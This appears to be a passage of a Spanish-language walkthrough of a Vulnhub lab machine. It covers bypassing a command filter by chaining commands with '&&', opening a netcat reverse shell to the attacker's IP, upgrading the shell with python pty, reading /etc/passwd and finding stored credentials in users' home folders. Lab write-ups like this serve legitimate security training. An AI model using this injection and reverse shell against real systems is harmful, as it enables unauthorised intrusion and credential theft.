 # Consiguiendo la shell

Puede ejecutar comandos, así que vamos a ver si podemos abrirnos una shell con netcat...

![placeholder]({{ site.url }}/assets/img/0032_201080607_0004.png)

Hummmm... parece que el admin se lo ha tomado en serio. Pruebo todos los trucos de la [entrada pasada](https://livefromsec.github.io/2018-06-04/vulnhub_walkthrough_basic_pentesting), pero está todo filtrado.

Vamos a ver si con wget podemos descargar y ejecutar una shell en .php...

También está restringido. Pues nada, a ver si se pueden ejecutar dos comandos:
* pruebo separándolos con ";", y también está bloqueado (aunque da otro mensaje).
* pruebo concatenándolos, con "&&"... y funciona!

![placeholder]({{ site.url }}/assets/img/0033_201080607_0005.png)

Ahora sí, concatenamos id con un nc y tenemos nuestra shell:
* _id && nc -e /bin/sh 10.192.0.127 4444_

![placeholder]({{ site.url }}/assets/img/0034_201080607_0006.png)

Sacamos una shell con python:
* _python -c 'import pty; pty.spawn("/bin/sh")'_

![placeholder]({{ site.url }}/assets/img/0035_201080607_0007.png)

y nos ponemos a enumerar.

# Enumeración

En la descripción que daban en Vulnhub, se recomienda buscar ficheros ocultos, así que a la hora de listar ficheros usaré:
* _ls -la_

Le echo un ojo al /etc/passwd con 
* _cat /etc/passwd_

y veo que hay varios usuarios en el sistema: c0rruptedb1t, bob, jc, seb y elliot.
Y que uno de ellos, bob aparece como "Not the smartest person".

![placeholder]({{ site.url }}/assets/img/0036_201080607_0008.png)

Nos vamos al /home y vamos a ir enumerando.
* seb no tiene nada destacable en su home
* jc no tiene nada destacable en su home

![placeholder]({{ site.url }}/assets/img/0037_201080607_0009.png)

* elliot tiene un fichero llamado theadminisdumb.txt xD Este fichero nos da las credenciales de james (presumiblemente jc) y las suyas.
* bob es el que más cosas tiene: un fichero oculto llamado old_passwordfile.html, que tiene las credenciales de seb y las de jc. Además tiene 2 scripts en python (Hello_Again.py y Whell_Of_Fortune.py), un proftpd1.3.3 (versión backdorizada) y en su carpeta Documents tiene un documento poniendo a caldo a los demás (staff.txt), un fichero cifrado (login.txt.gpg) y un script que muestra unas notas en el escritorio.
